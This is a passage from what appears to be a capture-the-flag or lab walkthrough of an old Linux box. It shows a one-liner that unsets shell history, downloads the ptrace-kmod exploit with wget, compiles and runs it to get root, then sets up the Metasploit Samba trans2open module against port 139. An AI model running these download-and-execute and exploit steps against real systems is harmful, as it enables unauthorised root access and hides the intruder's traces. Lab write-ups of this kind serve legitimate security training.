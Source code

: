 ``` plain
bash-2.05$ unset HISTFILE; cd /tmp; wget http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p;

--14:29:59--  http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c

           => `ptrace-kmod.c'

Connecting to dl.packetstormsecurity.net:80... connected!

HTTP request sent, awaiting response... 200 OK

Length: 3,921 [text/x-csrc]

    0K ...                                                   100% @   3.74 MB/s

14:30:00 (3.74 MB/s) - `ptrace-kmod.c' saved [3921/3921]

[+] Attached to 1444

[+] Waiting for signal

[+] Signal caught

[+] Shellcode placed at 0x4001189d

[+] Now wait for suid shell...

whoami

root
```

And we got a shell!


### Port 139 samba

The exploit for this is available in Metasploit:

**Samba trans2open Overflow (Linux x86)**

> This exploits the buffer overflow found in Samba versions 2.2.0 to 2.2.8. This particular module is capable of exploiting the flaw on x86 
> Linux systems that do not have the noexec stack option set. NOTE: Some older versions of RedHat do not seem to be vulnerable since they 
> apparently do not allow anonymous access to IPC.

``` plain
msf > use exploit/linux/samba/trans2open
msf exploit(trans2open) > show options

Module options (exploit/linux/samba/trans2open):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   RHOST                   yes       The target address
   RPORT  139              yes       The target port


Exploit target:

   Id  Name
   --  ----
   0   Samba 2.2.x - Bruteforce


```